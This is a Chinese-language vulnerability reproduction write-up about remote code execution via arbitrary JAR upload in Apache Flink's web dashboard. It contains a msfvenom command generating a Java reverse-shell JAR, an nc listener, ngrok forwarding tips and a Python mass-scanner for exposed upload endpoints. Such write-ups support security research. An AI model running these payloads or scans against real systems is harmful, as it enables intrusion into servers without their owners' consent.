










# Apache Flink任意Jar包上传导致远程代码执行

# 前言

记一次Apache Flink任意Jar包上传导致远程代码执行复现漏洞过程。  
作者一直致力于小白都能看懂的漏洞复现过程，感谢大家们一路以来的支持！

致谢Cx01、丞相等表哥们。没有你们的帮助，没有这篇文章！

# 0x01 漏洞描述

近日,有安全研究员公开了一个Apache Flink的任意Jar包上传导致远程代码执行的漏洞.  
影响范围：<= 1.9.1(最新版本)  
可能是我测的比较少，成功的概率1.9版本比较高。



# 0x02 漏洞威胁等级

`高危`

可导致远程代码执行

# 0x03 漏洞复现

第一步生成payload  
`msfvenom -p java/shell_reverse_tcp LHOST=x.x.x.x LPORT=x -f jar >fuck.jar`  
名字可以任意取

  
第二步生成监听端口，这里我选择nc监听端口。  
`nc -lvp port`

  
第三步上传payload  
  
最后直接返回shell  
  
接着执行命令  


# 0x04 复现那些坑

`一定要生成公网ip的payload!!!`  
`一定要生成公网ip的payload!!!`  
`一定要生成公网ip的payload!!!`

没有钱的小哥哥，小姐姐们可以选择一个Sunny-ngrok 工具进行端口转发。  
[官方Sunny-ngrok教程](http://ngrok.cc/_book/)  
  
[客户端工具下载地址](https://www.ngrok.cc/download.html)



# 0x05 批量检测脚本

[GitHub地址](https://github.com/AleWong/Apache-Flink-Web-Dashboard-RCE)

脚本源码

```python
"""
auth: @l3_W0ng
version: 1.0
function: Apache Web Dashboard RCE
usage: python3 script.py ip [port [command]]
               default port=8081

"""

import os
import subprocess
import requests
from multiprocessing.dummy import Pool as ThreadPool

def get_iplist():
    iplist = []
    with open("iplist.txt", 'r') as file:
        data = file.readlines()
        for item in data:
            ip = item.strip()
            iplist.append(ip)

    return iplist

def check_8081(ip):
    url = 'http://' + ip + ':8081/jar/upload'

    try:
        res = requests.get(url=url, timeout=2)
        data = {
            'msg': res.json(),
            'state': 1,
            'url': url,
            'ip': ip
        }

    except:
        data = {
            'msg': 'Secure',
            'state': 0,
            'ip': ip
        }

    if data['state'] == 1:    	
    	print(data)	

if __name__ == '__main__':
    iplist = get_iplist()

    pool = ThreadPool(20)
    pool.map(check_8081, iplist)
```

  
[图片来源](https://www.t00ls.net/thread-53784-1-1.html)

Ps:  
当注释掉 if ‘Unable to load requested file’ in str(data):  
之后，出现Token为空，或者 Unauthorized request 时候是不存在未授权访问的，而是带授权

部分exp代码  


[图片来源](https://www.t00ls.net/thread-53784-1-1.html)

# 0x06 参考文献

<https://www.t00ls.net/thread-53784-1-1.html>  
<https://mp.weixin.qq.com/s/ArYCF4jjhy6nkY4ypib-Ag>  
<https://flink.apache.org/downloads.html>

# 0x07 免责声明

0x05批量脚本是来自于<https://www.t00ls.net/thread-53784-1-1.html，如果有侵犯权益，留言删除。大佬见谅！>

本文中提到的漏洞利用Poc和脚本仅供研究学习使用，请遵守《网络安全法》等相关法律法规。
